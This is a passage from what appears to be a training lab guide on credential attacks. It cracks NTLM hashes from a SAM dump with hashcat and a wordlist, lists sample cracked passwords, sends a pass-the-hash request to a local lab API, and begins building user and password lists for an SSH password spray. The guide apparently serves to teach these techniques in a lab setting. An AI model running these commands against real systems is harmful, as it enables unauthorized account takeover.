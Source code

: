 #### Using Hashcat

```bash
# NTLM hash mode is 1000
# Extract just the NT hashes
awk -F: '{print $4}' hashes_sam.txt > ntlm_only.txt

# Crack with hashcat
hashcat -m 1000 ntlm_only.txt /usr/share/wordlists/rockyou.txt

# With rules
hashcat -m 1000 ntlm_only.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# Show cracked
hashcat -m 1000 ntlm_only.txt --show
```

**Expected Results:**
```
admin:Admin123!
john:Password1
sarah:Welcome2024
dbadmin:Database!
test:test
```

### 3.2 Pass-the-Hash Attack (Cours 05)

#### Using Captured NTLM Hash

```bash
# Once you have the NT hash, use it directly without cracking
curl -s -X POST http://localhost:8081/api/auth/pth \
  -H "Content-Type: application/json" \
  -d '{
    "username": "admin",
    "nt_hash": "209C6174DA490CAEB422F3FA5A7AE634"
  }' | jq '.'
```

**This demonstrates how pass-the-hash works - you don't need the plaintext password!**

### 3.3 SSH Password Spray Attack (Cours 05)

```bash
# Create username list
cat > users.txt <<EOF
admin
developer
backup
testuser
dbadmin
root
EOF

# Create password list (from cracked hashes + common passwords)
cat > passwords.txt <<EOF
Admin123!
Password1
Welcome2024
Database!
test
Dev2024!
Backup123
password
```